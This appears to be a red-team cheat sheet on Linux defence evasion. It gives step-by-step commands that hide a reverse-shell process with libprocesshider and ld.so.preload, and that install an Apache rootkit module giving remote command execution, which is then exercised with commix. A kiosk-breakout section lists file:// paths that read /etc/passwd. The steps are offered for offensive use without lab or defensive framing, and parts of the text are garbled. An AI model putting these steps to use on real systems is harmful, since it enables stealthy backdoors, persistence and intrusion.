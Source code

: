 # Linux bypass Restriction

***

## Hiding Linux Process

### Libprocesshider

1. git clone <https://github.com/gianlucaborello/libprocesshider>
2. Nano processhider.c
    ○ Change process_to_filter = nss_shell.py
3. Make
4. Mv libprocesshider.so /usr/local/lib
5. Echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
6. ./nss_shell 192.168.1.46 2222
7. Ps -aux

## Linux Red Team Defense Evasion - Rootkits

### apache Rootkit

1. sudo apt-get install apache2-dev

2. Cd /tmp
   3.git clone <https://github.com/ChristianPapathanasiou/apache-rootkit.git>

3. cd apache-rootkit

4. apxs -c -i mod_authg.c

5. vim /etc/apache2/apache2.conf
   
   * LoadModule authg_module /usr/lib/apache2/modules
   * mod_authg.so

```
<Location /authg>
SetHandler authg
</Location>
```

<http://192.168.1.46/authg?c=whoami>

commix -u <http://192.168.1.46/authg?c=whoami>

## Download and Upload file

## Kiosk BreakOuts

Interactive kiosks620 are computer systems that are generally intended to be used by the public for tasks such as Internet browsing, registration, or information retrieval. They are commonly installed in the lobbies of corporate buildings, in airports and retail establishments, and in various other locations.

* Command injection
  * file://etc/passwd
  * file://proc/version
